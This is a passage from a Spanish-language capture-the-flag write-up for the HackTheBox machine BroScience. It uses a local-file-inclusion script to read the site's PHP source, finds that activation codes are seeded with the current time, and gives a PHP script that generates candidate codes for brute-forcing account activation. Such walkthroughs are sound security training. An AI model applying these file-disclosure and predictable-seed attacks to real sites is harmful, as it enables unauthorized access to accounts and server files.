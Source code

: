 Ya tenemos las credenciales de la base de datos pero por ahora eso no nos interesa. Visualizamos el "utils.php" y lo guardamos en un fichero 

```
❯ ./lfi.py > utils.php
../includes/utils.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3060  100  3060    0     0   4533      0 --:--:-- --:--:-- --:--:--  4526
```

Ahora viendo el código, podemos ver cómo se genera el código de activación cuando intentamos crear un usuario

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

También podemos ver un archivo "activate.php", si lo guardamos y lo visualizamos podemos ver que nos manda a un link cuando genera el código de activación 

```
❯ cat register.php | grep "activate"
 
 $activation_link = "https://broscience.htb/activate.php?code={$activation_code}";

```

Vemos que genera un código de 32 dígitos y en base a la hora del sistema cuando tramitamos la petición de creación de usuario. Esto gracias a la función "srand" que funciona como semilla de hora. Creamos un usuario e interceptamos la petición con burpsuite y para el script de php copiamos la fecha que nos da el servidor y la ponemos en el script. Ahora con un script de php podemos intentar fuzzear por los códigos aleatorios que nos genera el script 

```php
<?php
function generate_activation_code($time) {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand($time);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

$ref_time = date("U",strtotime('Mon, 09 Jan 2023 23:32:24 GMT'));
for ($t = $ref_time - 500; $t <= $ref_time + 500; $t++)
    echo generate_activation_code($t)."\n";
```
